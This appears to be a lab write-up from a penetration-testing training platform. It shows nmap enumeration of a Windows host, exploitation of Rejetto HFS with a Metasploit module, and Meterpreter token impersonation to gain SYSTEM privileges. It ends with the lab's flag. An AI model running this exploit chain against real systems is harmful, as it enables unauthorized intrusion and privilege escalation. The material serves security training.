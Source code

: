 # 🔬Access Token

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
> * Target IP: `10.0.28.102`
> * **Access Token impersonation**

### Enumeration

```bash
root@attackdefense:~# nmap 10.0.28.102
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-06 11:22 IST
Nmap scan report for 10.0.28.102
Host is up (0.0018s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 5.60 seconds
```

* Determine the version information of the web server on port `80`

<figure><img src="../../../../../.gitbook/assets/image (21) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Without using `nmap`, the `http` server version can be checked in a browser by opening the link

* `http://10.0.28.102/`

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
searchsploit hfs
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

```bash
msfconsole -q
msf6 > search rejetto
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
msf6 > use exploit/windows/http/rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > show options
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.0.28.102
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Migrate current x86 `meterpreter` session to a x64 process

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Access is denied because current user `LOCAL SERVICE` don't have access to an privileges user account
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This `meterpreter` session (with this particular user account) can be utilized to impersonate other access tokens available.

### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

#### **Access Token Impersonation**

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Listing tokens with this account, there can be additional available tokens

<figure><img src="../../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `NT AUTHORITY\SYSTEM` can be impersonated, getting the privileges associated with its access token

```bash
impersonate_token "NT AUTHORITY\SYSTEM"
```

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* In the case of no Delegation or Impersonation tokens found, the `Potato Attack` can be used to get or generate a `NT AUTHORITY/SYSTEM` access token, impersonating it and obtain privileges associated to it.
* Get the flag of the lab:

```bash
cd C:\\Users\\Administrator\\Desktop\\
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: x28c832a39730b7d46d6c38f1ea18e12
{% endhint %}

